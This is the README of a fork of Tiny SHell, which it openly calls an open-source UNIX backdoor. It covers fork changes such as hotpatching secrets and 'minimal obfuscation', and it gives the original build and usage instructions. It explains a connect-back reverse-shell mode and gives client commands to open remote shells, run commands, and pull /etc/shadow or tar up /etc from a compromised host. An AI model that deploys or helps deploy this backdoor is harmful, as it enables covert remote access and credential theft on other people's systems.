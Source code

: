 ## Tiny SHell - An open-source UNIX backdoor, written by Christophe Devine, which enhancements and utilities from others

Christophe Devine released this tool licensed under 'the GPL' though he did not specify which version

This fork, licensed by copyright@mzpqnxow.com, is released under the GPLv2. See LICENSE and LICENSE.md for more information on this license


### https://github.com/mzpqnxow/tsh fork

This is a fork of the fork by creaktive with a focus on portability and convenience

  * Added splice_secret.sh to hotpatch existing binaries with new secrets, useful for deploying statically linked binaries with obscure toolchains that are painful to rebuild, and when it's not secure to use the same password for all instances of tshd (if you're using it on 2 security domains)
  * Restored the portability feature of defaulting to /bin/sh (busybox, AIX, HP-UX, IRIX, many Solaris need this)
  * Restored the more 'old school' way of the server, not accepting any arguments and being fairly opaque about what it even is (just minimal obfuscation)
  * Added simple way to avoid using a login shell at all (via ```MINIMAL=1 ./tsh```)
  * Added a way to explicitly specify Bash if you really want to (via ```BASH=1 ./tsh```)
  * Since creaktive's default of using /bin/bash was removed in my fork, it caused Debian derived systems to break since dash doesn't handle --login, fixed using /bin/sh -l (via ```DASH=1 ./tsh```)

#### TODO
  * Add a collection of statically built (w/musl libc) executables for MIPS and ARM variants
  * Add a tool to hotpatch a hardcoded port and/or connectback host/IP into a tshd binary


### https://github.com/creaktive/tsh fork
  * Added iPhone buildability and a usage function
  * Redid the Makefile
  * Upgraded the ciphers
  * Added some argv[] handling
  * Maybe some other stuff?
  * Does not add any new licensing terms

### Original tsh version 0.6

```
                 Tiny SHell - An open-source UNIX backdoor


    Before compiling Tiny SHell

        1. First of all, you should setup your secret key, which
           is located in tsh.h; the key can be of any length (use
           at least 12 characters for better security).

        2. It is advised to change SERVER_PORT, the port on which
           the server will be listening for incoming connections.

        3. You may want to start tshd in "connect-back" mode if
           it runs on on a firewalled box; simply uncomment and
           modify CONNECT_BACK_HOST in tsh.h.

    * Compiling Tiny SHell

        Run "make <system>", where <system> can be any one of these:
        linux, freebsd, openbsd, netbsd, cygwin, sunos, irix, hpux, osf

    * How to use the server

        It can be useful to set $HOME and the file creation mask
        before starting the server:

            % umask 077; HOME=/var/tmp ./tshd

    * How to use the client

        Make sure tshd is running on the remote host. You can:

        - start a shell:

            ./tsh <hostname>

        - execute a command:

            ./tsh <hostname> "uname -a"

        - transfer files:

            ./tsh <hostname> get /etc/shadow .
            ./tsh <hostname> put vmlinuz /boot

        Note: if the server runs in connect-back mode, replace
        the remote machine hostname with "cb".

    * About multiple file transfers

        At the moment, Tiny SHell does not support scp-like multiple
        and/or recursive file transfers. You can work around this bug
        by simply making a tar archive and transferring it. Example:

        ./tsh host "stty raw; tar -cf - /etc 2>/dev/null" | tar -xvf -

    * About terminal modes

        On some brain-dead systems (actually, IRIX and HP-UX), Ctrl-C
        and other control keys do not work correctly. Fix it with:

            % stty intr "^C" erase "^H" eof "^D" susp "^Z" kill "^U"

    * About security

        Please remember that the secret key is stored in clear inside
        both tsh and tshd executables; therefore you should make sure
        that no one except you has read access to these two files.
        However, you may choose not to store the real (valid) key in
        the client, which will then ask for a password when it starts.
```

